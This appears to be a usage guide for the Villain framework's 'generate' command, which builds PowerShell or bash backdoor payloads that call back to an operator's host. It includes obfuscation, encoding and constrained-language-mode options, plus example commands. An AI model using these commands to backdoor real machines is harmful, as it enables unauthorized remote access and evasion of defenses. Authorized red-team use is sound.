 # Usage Guide
## Table of contents
1. [Generate Backdoor Payloads](Generate-Backdoor-Payloads)
2. 


## Generate Backdoor Payloads
Use the "generate" prompt command to generate backdoor payloads for Windows or Linux machines. 

```
generate os=windows lhost=<IP or IFACE> [ exec_outfile=<REMOTE PATH> domain=<DOMAIN>] [ obfuscate encode constraint_mode ]
```

The backdoors are designed to start as new background processes. Currently supported types of backdoors:  
 - for Windows: Powershell 
 - for Linux: bash

#### Available arguments for the "generate" prompt command:
| Argument        | Required | Supported OS | Requires Input Val | Description |
|-----------------|:-------:|:-------------:|:------------------:|------------------------|
| os              | True    | All           | Yes                | The OS type of the backdoor. |
| lhost           | True    | N/A           | Yes                | Your local IP or Interface. |
| domain          | Depends | N/A           | Yes                | If you have provided trusted cert and priv_key files to start Villain with SSL, you can provide domain instead of lhost. |
| obfuscate       | False   | Windows       | No                 | Auto-obfuscate the generated payload. This aims to assist you, not always do the job for you. |
| encode          | False   | Windows       | No                 | Base64 encode the generated payload. |
| exec_outfile    | False   | Windows       | Yes                | Provide a file path on the victim to write & execute commands from (instead of using IEX) |
| constraint_mode | False   | Windows       | No                 | Make the generated payload work on PowerShell Constraint Language Mode. By using this option you sacrifice a bit of the decoding clarity of your shell. |

### Examples:
```
# For Windows:
generate os=windows lhost=eth0 obfuscate
generate os=windows lhost=192.168.12.36 exec_outfile="C:\Users\\\$env:USERNAME\.local\hack.ps1" encode

# For Linux:
generate os=linux lhost=192.168.12.62
```
